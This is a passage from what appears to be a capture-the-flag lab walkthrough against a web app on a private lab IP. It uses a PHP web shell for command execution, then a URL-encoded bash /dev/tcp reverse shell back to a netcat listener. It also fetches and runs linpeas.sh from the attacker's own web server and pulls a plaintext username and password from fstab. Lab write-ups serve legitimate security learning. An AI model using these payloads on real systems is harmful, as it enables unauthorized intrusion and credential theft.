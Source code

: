 ```
http://10.10.141.50:12340/rms/images/reverse-shell.php?cmd=id
```
Result
```
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0 
```
OK, it works ^^. The next step is to create a reverse shell.

I draft this command
```
http://[IP targeted machiane]:12340/rms/images/reverse-shell.php?cmd=bash+-i+%3E%26+/dev/tcp/[IP local machine]/[PORT local machine listener]+0%3E%261
```
Listener into the local machine
```
 nc -nvlp 4646
Connection from 10.10.141.50:49868
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
bash-4.2$
```
Create a local websever and download **linpeas.sh**
```
bash-4.2$ curl http://10.6.96.167:8000/linpeas.sh > linpeas.sh
curl http://10.6.96.167:8000/linpeas.sh > linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  619k  100  619k    0     0   558k      0  0:00:01  0:00:01 --:--:--  559k
```
Change **linpeas.sh** rights and launch it
```
bash-4.2$ chmod +x linpeas.sh
chmod +x linpeas.sh
bash-4.2$ ./linpeas.sh
```
```
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/zeno-monitoring.service

═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No
═╣ Credentials in fstab/mtab? ........... /etc/fstab:#//10.10.10.10/secret-share	/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft	0 0
═╣ Can I read shadow files? ............. No
═╣ Can I read shadow plists? ............ No
═╣ Can I write shadow plists? ........... No
═╣ Can I read opasswd file? ............. No
═╣ Can I write in network-scripts? ...... No
═╣ Can I read root folder? .............. No
```
We have a **username** --> **zeno** and a **password** --> **FrobjoodAdkoonceanJa**
